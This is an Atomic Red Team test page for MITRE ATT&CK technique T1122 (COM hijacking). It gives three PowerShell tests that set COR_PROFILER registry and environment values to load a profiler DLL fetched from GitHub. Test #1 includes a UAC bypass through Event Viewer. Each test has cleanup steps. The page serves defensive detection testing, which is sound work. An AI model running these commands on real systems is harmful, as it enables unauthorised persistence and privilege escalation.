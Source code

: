 # T1122 - Component Object Model Hijacking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1122)
<blockquote>The Component Object Model (COM) is a system within Windows to enable interaction between software components through the operating system. (Citation: Microsoft Component Object Model) Adversaries can use this system to insert malicious code that can be executed in place of legitimate software through hijacking the COM references and relationships as a means for persistence. Hijacking a COM object requires a change in the Windows Registry to replace a reference to a legitimate system component which may cause that component to not work when executed. When that system component is executed through normal system operation the adversary's code will be executed instead. (Citation: GDATA COM Hijacking) An adversary is likely to hijack objects that are used frequently enough to maintain a consistent level of persistence, but are unlikely to break noticeable functionality within the system as to avoid system instability that could lead to detection.</blockquote>

## Atomic Tests

- [Atomic Test #1 - COM Hijack Leveraging user scope COR_PROFILER](#atomic-test-1---com-hijack-leveraging-user-scope-cor_profiler)

- [Atomic Test #2 - COM Hijack Leveraging System Scope COR_PROFILER](#atomic-test-2---com-hijack-leveraging-system-scope-cor_profiler)

- [Atomic Test #3 - COM Hijack Leveraging registry-free process scope COR_PROFILER](#atomic-test-3---com-hijack-leveraging-registry-free-process-scope-cor_profiler)


<br/>

## Atomic Test #1 - COM Hijack Leveraging user scope COR_PROFILER
Creates user scope environment variables and CLSID COM object to enable a .NET profiler (COR_PROFILER). The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by the Event Viewer process. Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity. 

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1122&#92;bin&#92;T1122x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value #{file_name} -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:
```powershell
Write-Host "Removing registry keys" -ForegroundColor Cyan
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1122/bin/T1122x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #2 - COM Hijack Leveraging System Scope COR_PROFILER
Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect. The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity. 

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1122&#92;bin&#92;T1122x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Write-Host "Removing system environment variables" -ForegroundColor Cyan
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1122/bin/T1122x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #3 - COM Hijack Leveraging registry-free process scope COR_PROFILER
Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by PowerShell.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unamanged profiler DLL | Path | PathToAtomicsFolder&#92;T1122&#92;bin&#92;T1122x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '#{file_name}'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:
```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1122/bin/T1122x64.dll" -OutFile "#{file_name}"
```




<br/>
